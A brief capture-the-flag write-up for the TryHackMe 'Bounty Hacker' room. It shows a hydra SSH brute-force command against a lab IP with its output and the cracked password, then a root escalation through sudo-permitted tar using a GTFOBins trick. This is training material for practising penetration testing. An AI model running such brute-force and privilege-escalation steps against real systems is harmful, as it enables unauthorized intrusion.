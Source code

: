 # Bounty Hacker aka Cowboy Hacker - TryHackMe.com

export IP=10.10.239.121

``` 
3 open ports found( ssh, ftp, http)

```

Used 'hydra' to Bruteforce into ssh with login username 'lin'

```
hydra 10.10.122.45 ssh -P locks.txt -s 22 -l lin
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-17 16:29:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.122.45:22/
[22][ssh] host: 10.10.122.45   login: lin   password: RedDr4gonSynd1cat3


RedDr4gonSynd1cat3

```


checked sudo -l

tar was allowed on root
used tar command execution from gtfobin
success

